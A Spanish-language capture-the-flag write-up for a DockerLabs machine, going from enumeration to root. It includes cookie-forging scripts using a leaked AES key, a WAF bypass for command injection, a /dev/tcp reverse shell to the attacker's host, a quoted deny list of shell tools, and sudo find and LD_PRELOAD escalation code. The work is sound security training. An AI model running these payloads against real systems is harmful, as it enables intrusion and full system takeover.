# SECorNOTsec DockerLabs (Intermediate)

## Contexto de la maquina

### Trayectoria SECorNOTsec

<figure><figcaption></figcaption></figure>

### Descripción

La máquina presenta una aplicación web desarrollada en Python (Werkzeug) que implementa un sistema de autenticación basado en cookies cifradas. A través de una mala gestión criptográfica y filtración de información sensible, es posible escalar privilegios dentro de la aplicación, ejecutar comandos en el sistema y posteriormente escalar privilegios hasta root.

**Objetivo del reto**

* Obtener acceso administrativo en la aplicación web.
* Conseguir ejecución remota de comandos.
* Escalar privilegios hasta root.

**Tipo de máquina**

* Linux
* Web (Flask/Werkzeug)
* Escalada local

**Habilidades y técnicas evaluadas**

* Enumeración web
* Fuzzing de directorios
* Criptografía aplicada (AES-CBC)
* Manipulación de cookies
* Bypass de WAF
* Command Injection
* Escalada de privilegios con `sudo`
* Abuso de `LD_PRELOAD`

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip secornotsec.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh secornotsec.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-02 03:15 -0400
Nmap scan report for 172.17.0.2
Host is up (0.00014s latency).

PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.1.6 (Python 3.10.12)
|_http-title: Did not follow redirect to /
|_http-server-header: Werkzeug/3.1.6 Python/3.10.12
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```

Observamos que únicamente hay un puerto expuesto (`5000/tcp`) que aloja un servicio web basado en **Werkzeug**.

Accedemos al servicio:

```
URL = http://<IP>:5000/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Se presenta una aplicación web que incluye una **consola de diagnóstico**, aunque no podemos interactuar con ella debido a que el usuario actual tiene rol `guest`.

### Análisis del lado cliente

Inspeccionando el código fuente de la página, encontramos el siguiente comentario:

```html
<!-- IMPORTANTE : Cambiar IV estático 0123456789abcdef por uno dinámico -->
```

Este detalle es especialmente relevante, ya que apunta a un uso incorrecto de criptografía (IV estático), lo que potencialmente puede afectar al mecanismo de cifrado de las cookies.

En este punto, planteamos la hipótesis de que la cookie de sesión podría estar cifrada de forma insegura. No obstante, continuamos con la enumeración antes de profundizar en este vector.

## Enumeración web (Gobuster)

<figure><figcaption></figcaption></figure>

Procedemos a realizar fuzzing de directorios y archivos:

```shell
gobuster dir --url http://<IP>:5000/ -w <WORDLIST> -x html,php,txt,bak,zip,backup -t 100 -k
```

> **Nota:** Un número elevado de threads o múltiples extensiones simultáneas pueden provocar inestabilidad en el servicio, llegando incluso a tumbarlo temporalmente. Se recomienda probar extensiones de forma progresiva.

Respuesta:

```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:5000/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
login                (Status: 302) [Size: 189] [--> /]
logout               (Status: 302) [Size: 199] [--> /login]
env.bak              (Status: 200) [Size: 32]
```

Destaca especialmente el archivo `env.bak`, ya que este tipo de ficheros suele contener información sensible del entorno de la aplicación.

### Obtención de información sensible

Accedemos al archivo:

```shell
curl http://<IP>:5000/env.bak
```

Respuesta:

```
SECRET_KEY = 'H4ckTh3Pl4n3t_26'
```

Este valor corresponde, con alta probabilidad, a la **clave secreta utilizada por la aplicación** para cifrar o firmar las cookies de sesión (`user_session`). Esto implica que podemos analizar y potencialmente manipular dichas cookies.

## Creación de cookie con privilegios de administrador

<figure><figcaption></figcaption></figure>

Gracias a que disponemos de la `SECRET_KEY`, podemos proceder a **descifrar la cookie de sesión** para entender su estructura interna.

Para ello, obtenemos la cookie desde el navegador (`DevTools → Storage → Cookies`). En esta sección identificamos la cookie `user_session` y copiamos su valor, que utilizaremos en nuestros scripts.

### Decodificación de la cookie

Creamos un script en `python3` para automatizar el proceso de descifrado:

> decode.py

```python
#!/usr/bin/env python3
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import base64

COOKIE = "6JmCIseGBxSEntdM4LWH8kM4nu9N/RocoWVhf8o1KXtmePv1ptCw/LQUCOW1XWTK"
SECRET_KEY = b"H4ckTh3Pl4n3t_26"

def decrypt_cookie(cookie_b64):
    data = base64.b64decode(cookie_b64)
    iv = data[:16]
    ct = data[16:]
    
    cipher = Cipher(algorithms.AES(SECRET_KEY), modes.CBC(iv), backend=default_backend())
    decryptor = cipher.decryptor()
    decrypted_padded = decryptor.update(ct) + decryptor.finalize()
    
    # PKCS7 unpadding (quitamos 0C bytes = 12 bytes padding)
    padding_len = decrypted_padded[-1]
    plaintext = decrypted_padded[:-padding_len]
    
    return plaintext.decode()

# MOSTRAR CONTENIDO
plaintext = decrypt_cookie(COOKIE)
print(f"📄 TU COOKIE DESCIFRADA:")
print(f"   '{plaintext}'")
```

Ejecutamos el script:

```shell
python3 decode.py
```

Info:

```
📄 TU COOKIE DESCIFRADA:
   ', "is_admin": false}'
```

Esto confirma que la cookie contiene un campo booleano `is_admin`, el cual determina el nivel de privilegios del usuario.

### Generación de cookie con privilegios elevados

<figure><figcaption></figcaption></figure>

Conociendo la estructura interna, podemos generar una nueva cookie válida modificando el valor de `is_admin` a `true`.

Para ello, creamos un segundo script:

> createCookie.py

```python
#!/usr/bin/env python3
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend
import base64

COOKIE = "6JmCIseGBxSEntdM4LWH8kM4nu9N/RocoWVhf8o1KXtmePv1ptCw/LQUCOW1XWTK"
SECRET_KEY = b"H4ckTh3Pl4n3t_26"

def decrypt_cookie(cookie_b64):
    data = base64.b64decode(cookie_b64)
    iv = data[:16]
    ct = data[16:]
    cipher = Cipher(algorithms.AES(SECRET_KEY), modes.CBC(iv), backend=default_backend())
    decryptor = cipher.decryptor()
    decrypted_padded = decryptor.update(ct) + decryptor.finalize()
    unpadder = padding.PKCS7(128).unpadder()
    plaintext = unpadder.update(decrypted_padded) + unpadder.finalize()
    return plaintext.decode('utf-8')

def create_admin_cookie():
    # EXACTAMENTE igual estructura que original pero is_admin: true
    json_original = ', "is_admin": false}'
    json_admin = ', "is_admin": true}'  # MISMA longitud 20 bytes
    
    # Mismo IV original
    data = base64.b64decode(COOKIE)
    iv = data[:16]
    
    # PKCS7 padding automático
    padder = padding.PKCS7(128).padder()
    padded_data = padder.update(json_admin.encode()) + padder.finalize()
    
    cipher = Cipher(algorithms.AES(SECRET_KEY), modes.CBC(iv), backend=default_backend())
    encryptor = cipher.encryptor()
    ct = encryptor.update(padded_data) + encryptor.finalize()
    
    return base64.b64encode(iv + ct).decode()

# EJECUTAR
print("🔓 COOKIE ADMIN - MISMA ESTRUCTURA")
plaintext = decrypt_cookie(COOKIE)
print(f"📄 ORIGINAL: '{plaintext}' ({len(plaintext)} bytes)")

admin_cookie = create_admin_cookie()
print(f"\n👑 COOKIE ADMIN (misma longitud):")
print(f"user_session={admin_cookie}")

print(f"\n🚀 PEGA ESTA EN DEVTOOLS → Cookies → user_session")
```

Ejecutamos el script:

```shell
python3 createCookie.py
```

Info:

```
🔓 COOKIE ADMIN - MISMA ESTRUCTURA
📄 ORIGINAL: ', "is_admin": false}' (20 bytes)

👑 COOKIE ADMIN (misma longitud):
user_session=6JmCIseGBxSEntdM4LWH8lOW5EuvncicgkdwAuAh5BSey3eJoqyw1sXEgNxEv4mE

🚀 PEGA ESTA EN DEVTOOLS → Cookies → user_session
```

Finalmente, sustituimos el valor de la cookie `user_session` en el navegador (`DevTools → Storage → Cookies`) por la nueva cookie generada.

Con esto, conseguimos escalar privilegios a **administrador**, lo que nos permitirá acceder a funcionalidades restringidas de la aplicación.

<figure><figcaption></figcaption></figure>

## Escalate user firstatack

<figure><figcaption></figcaption></figure>

Una vez que hemos sustituido la cookie por la versión modificada con privilegios elevados, recargamos la página. Como resultado, observamos que ahora tenemos acceso a la consola de diagnóstico:

<figure><figcaption></figcaption></figure>

Aunque visualmente seguimos apareciendo como `guest`, en la práctica ya disponemos de acceso funcional a la consola, lo que nos permite interactuar con el backend.

### Identificación de Command Injection

El siguiente paso es probar si la consola es vulnerable a **command injection**. Inicialmente, intentamos técnicas clásicas utilizando `;`, pero comprobamos que existe un mecanismo de filtrado (WAF) que bloquea este tipo de operadores.

Tras varias pruebas, identificamos que el operador `&` **sí permite concatenar comandos**, lo que nos da una vía de explotación.

#### Prueba de concepto

Payload utilizado:

```
&id
```

Al ejecutarlo, obtenemos:

<figure><figcaption></figcaption></figure>

Esto confirma que la inyección de comandos es viable.

### Análisis del WAF

Para entender mejor las restricciones, revisamos el código fuente de la aplicación (`app.py`):

```python
...................................<RESTO DE INFO>.................................
# --- WAF: SEGURIDAD DE COMANDOS ---
def waf_check(payload):
    # Bloqueamos operadores comunes y palabras clave de intérpretes
    denied = [";", "&&", "||", "|", "`", "$", "(", ")", "nc", "bash", "python", "perl", "ruby"]
    for char in denied:
        if char in payload.lower():
            return False
    return True
...................................<RESTO DE INFO>.................................
```

Observamos que:

* Se bloquean operadores comunes de ejecución (`;`, `&&`, `|`, etc.)
* También se filtran nombres de binarios típicos usados para explotación (`bash`, `python`, `nc`, etc.)

Esto implica que debemos **evadir el filtro mediante técnicas de ofuscación**.

### Bypass del WAF

Para evitar la detección, utilizamos una técnica sencilla de evasión basada en **fragmentación de cadenas**, por ejemplo:

```bash
b''ash
```

De esta forma, evitamos que el WAF detecte la palabra clave bash, pero el sistema la interpreta correctamente.\
Obtención de Reverse Shell

Primero, nos ponemos en escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

A continuación, inyectamos los siguientes comandos en la consola:

```shell
&echo "b''ash -i >& /dev/tcp/<IP>/<PORT> 0>&1" > rv.sh
&chmod +x rv.sh
&b''ash rv.sh
```

Al volver a nuestra escucha, obtenemos una conexión entrante:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 42148
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
firstatack@9eef7ead37db:/app$ whoami
whoami
firstatack
```

Confirmamos que hemos obtenido acceso como el usuario `firstatack`.

### Sanitización de shell (TTY)

Para trabajar de forma más cómoda, procedemos a estabilizar la shell:

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user chocolate

<figure><figcaption></figcaption></figure>

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for firstatack on 9eef7ead37db:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User firstatack may run the following commands on 9eef7ead37db:
    (chocolate) NOPASSWD: /usr/bin/find
```

### Interpretación

Observamos que el usuario `firstatack` puede ejecutar el binario `/usr/bin/find` como el usuario `chocolate` sin necesidad de contraseña (**NOPASSWD**).

Dado que `find` permite la ejecución de comandos mediante la opción `-exec`, podemos abusar de esta funcionalidad para obtener una shell como dicho usuario.

### Explotación

Ejecutamos:

```shell
sudo -u chocolate find . -exec /bin/bash \; -quit
```

Respuesta:

```
chocolate@9eef7ead37db:/home$ whoami
chocolate
```

Con esto, conseguimos escalar privilegios al usuario `chocolate`.

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Si ejecutamos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for chocolate on 9eef7ead37db:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 9eef7ead37db:
    (root) SETENV: NOPASSWD: /usr/local/bin/syscheck
```

### Interpretación

Aquí encontramos un vector de escalada muy interesante:

* Podemos ejecutar `/usr/local/bin/syscheck` como **root**
* No se requiere contraseña (**NOPASSWD**)
* Se permite el uso de `SETENV`, lo que implica que podemos **definir variables de entorno arbitrarias**

Esto abre la puerta a técnicas como **LD\_PRELOAD hijacking**.

### LD\_PRELOAD Abuse

La variable de entorno `LD_PRELOAD` permite forzar la carga de librerías compartidas antes que las del sistema. Si podemos inyectar una librería maliciosa, conseguiremos ejecución de código como el usuario que ejecuta el binario (en este caso, **root**).

#### Preparación del payload

Creamos una librería compartida maliciosa en C:

```shell
cat > /tmp/syscheck.c << 'EOF'
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

__attribute__((constructor))
void root_shell() {
  if (geteuid() == 0) {
    setuid(0);
    setgid(0);
    execve("/bin/sh", NULL, NULL);
  }
}

int main() {
  puts("System Status: All systems operational.");
  return 0;
}
EOF

# Compilamos el codigo
gcc -fPIC -shared -o /tmp/syscheck.so /tmp/syscheck.c -nostartfiles
```

#### Explicación

* `-fPIC` → genera código independiente de posición (necesario para librerías)
* `-shared` → crea una librería compartida (`.so`)
* `__attribute__((constructor))` → ejecuta automáticamente la función al cargar la librería

### Explotación

Ejecutamos el binario vulnerable forzando la carga de nuestra librería:

```shell
sudo LD_PRELOAD=/tmp/syscheck.so /usr/local/bin/syscheck
```

Respuesta:

```
# whoami
root
```

Hemos conseguido ejecución como **root**, completando la escalada de privilegios.
